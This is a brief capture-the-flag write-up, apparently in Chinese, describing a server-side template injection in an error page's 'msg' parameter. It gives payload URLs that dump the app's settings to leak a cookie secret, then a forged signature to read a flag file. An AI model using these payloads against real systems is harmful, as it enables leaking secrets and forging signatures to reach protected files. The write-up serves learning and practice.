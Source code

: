 ##  (Title)

##  Tools

NULL

##  Steps

* Step 1  
报错时的error参数存在模板注入
```
http://49.4.78.81:30980/error?msg={{1^0}}
```
提交
```
http://49.4.78.81:30980/error?msg={{handler.settings}}
```
可以看到cookie_secret  
伪造签名读取flag
```
http://49.4.78.81:30980/file?filename=/fllllllllllag&signature=7bae09c2c6e2f6aa34df7dbee23db960
```





